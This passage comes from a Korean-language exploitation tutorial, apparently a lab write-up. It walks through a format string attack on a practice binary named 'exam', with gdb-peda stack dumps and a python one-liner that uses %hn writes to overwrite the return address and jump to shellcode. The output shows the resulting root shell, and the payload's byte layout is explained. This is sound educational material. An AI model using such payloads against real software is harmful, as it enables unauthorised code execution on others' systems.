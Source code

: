 ```
0004| 0xffffd5b0 --> 0x1 
0008| 0xffffd5b4 --> 0xffffd644 --> 0xffffd784 ("/root/Pwn/FSB/exam")
0012| 0xffffd5b8 --> 0xffffd64c --> 0xffffd797 ("LC_PAPER=ko_KR.UTF-8")
0016| 0xffffd5bc --> 0x0 
0020| 0xffffd5c0 --> 0x0 
0024| 0xffffd5c4 --> 0x0 
0028| 0xffffd5c8 --> 0xf7fb6000 --> 0x1b1db0 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x080484cb in main ()
```

`0xffffd5ac` 로 되어있는데 위에서 구한 `0xffffd57c`와 정확히 0x30 차이가 난다.
공격 코드를 짜본다.

```
root@shh0ya-virtual-machine:~/Pwn/FSB# (python -c 'print "AA"+"\xac\xd5\xff\xff"+"AAAA"+"\xae\xd5\xff\xff"+"%55312x%hn%10209x%hn"';cat)|./exam
AA¬ֿÿAAAA®ֿÿ <공백> 4141e550 <공백> 41414141
0xffffd5a6

ls
a.out  env.c  exam  exam.c  peda-session-dash.txt  peda-session-exam.txt
pwd
/root/Pwn/FSB
```

위와 같이 공격에 성공하여 쉘을 실행한 것을 볼 수 있다.

```
Dummy(AA) 2 bytes
RET 하위주소(0xffffd5ac) 4 bytes
Dummy(AAAA) 4 bytes
RET 상위주소(0xffffd5ae) 4 bytes
쉘 코드 하위주소(0xD810) 55312 bytes
쉘 코드 상위주소(0x27E1) 10209 bytes
```

`printf` 호출 직전 다음과 같은 스택이 구성된다.

```
gdb-peda$ x/16wx $esp
0xffffd170:	0xffffd176	0x4141e550	0xffffd5ac	0x41414141
0xffffd180:	0xffffd5ae	0x33353525	0x25783231	0x31256e68
0xffffd190:	0x39303230	0x6e682578	0x0000000a	0x00000000
0xffffd1a0:	0x00000000	0x00000000	0x00000000	0x00000006
```

총 4개의 포맷스트링이 존재한다. (`%x %hn %x %hn`)
첫 번째 %x를 만나면 55308 바이트만큼 공백을 출력하고 4바이트의 ESP+4 의 값을 출력한다.(55312)
두 번째 %hn을 만나면 현재까지 출력한 길이를 ESP+8 위치에 있는 주소 안에 WORD 사이즈에 복사한다.

즉 0xffffd5ac(RET)부터 2바이트에 Dummy(2) + RET 하위(4) + Dummy(4) + RET 상위(4) + 55312 값을 저장하게 된다. 이 값은 0xD812(55326) 으로 쉘코드의 하위 주소에 해당된다. 
